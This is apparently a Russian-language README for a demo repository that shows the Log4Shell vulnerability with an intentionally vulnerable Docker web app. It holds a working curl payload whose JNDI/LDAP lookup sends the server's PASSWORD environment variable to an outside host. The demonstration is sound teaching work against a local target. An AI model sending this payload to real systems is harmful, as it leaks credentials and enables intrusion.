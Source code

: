 # Демонстрация Log4Shell уязвимости на примере простого web-приложения

Основные типы уязвимостей [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) могут быть классифицированы следующим образом:

1. **Уязвимость связанная с похищением переменной окружения**: Этот тип уязвимости позволяет злоумышленнику внедрить специально сформированные данные в журнальные сообщения, которые могут привести к выполнению нежелательных действий, таких как утечка конфиденциальной информации через переменные окружения.
2. **Уязвимость в выполнении зловредного кода**: Этот тип уязвимости более серьезный и позволяет злоумышленнику удаленно выполнить произвольный код на сервере, использующем Log4j. Злоумышленник может достичь этого, отправляя специально сформированные журнальные сообщения, содержащие код, который будет исполнен сервером. Это может привести к полному контролю над сервером и краже данных.

В данном примере рассмотрим первый вариант (переменная окружения).

**<span style="color:red">Этот репозиторий содержит веб-приложение уязвимое для CVE-2021-44228, под названием Log4Shell. Приложение размещенное в данном репозитории настоятельно рекомендуется запускать в изолированной виртуальной среде. Запуск процессов в соответствии с данной инструкцией осуществляется на Ваш страх и риск.</span>**

## Инструкции

1. **Клонирование проекта**

```bash
git clone https://
cd log4shell-vulnerable-app
```

2. **Сборка образа Docker**

![](./screenshot1.png)

```bash
docker build . -t my-log4shell
```

3. **Запуск контейнера на основе образа**

![](./screenshot2.png)

```bash
docker run --name vulnerable-app --rm -p 8080:8080 my-log4shell
```

4. **Эмуляция атаки**

Сервис [yandex.tatar](https://yandex.tatar/) разработан специалистами Yandex в том числе для целей моделирования атак. Можно сгенерировать свой ID инстанса и отправить зловредный payload. Буквально это означает следующее 'сходи на этот LDAP сервер и передай туда environment переменную'.

![](./screenshot3.png)

Пейлоад - это часть данных или кода, который передается или выполняется в рамках определенного контекста или протокола. В контексте безопасности информации или компьютерных систем, пейлоад обычно означает нагрузку зловредного программного обеспечения или кода, который используется для атаки или компрометации целевой системы.

![](./screenshot4.png)

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://${env:PASSWORD}.71e366363ed9.n.yandex.tatar}'
```

![](./screenshot5.png)

5. **результат**

Уязвимое приложение (сервер) отправляет содержимое environment переменной password на удаленный (зловредный) сервер.

![](./screenshot6.png)
![](./screenshot7.png)
